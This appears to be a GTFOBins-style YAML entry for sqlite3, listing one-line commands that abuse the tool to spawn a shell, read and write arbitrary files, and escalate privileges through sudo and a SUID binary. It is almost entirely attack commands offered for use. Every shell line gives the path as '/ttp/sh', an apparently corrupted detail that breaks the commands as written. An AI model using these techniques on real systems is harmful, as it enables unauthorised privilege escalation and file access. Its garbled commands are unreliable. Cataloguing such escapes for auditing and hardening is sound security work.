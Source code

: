 ```yaml
---
functions:
  shell:
    - code: sqlite3 /dev/null '.shell /ttp/sh'
  file-write:
    - code: |
        LFILE=file_to_write
        sqlite3 /dev/null -cmd ".output $LFILE" 'select "DATA";'
  file-read:
    - code: |
        LFILE=file_to_read
        sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
  sudo:
    - code: sudo sqlite3 /dev/null '.shell /ttp/sh'
  limited-suid:
    - code: "./sqlite3 /dev/null '.shell /ttp/sh'"
---
```

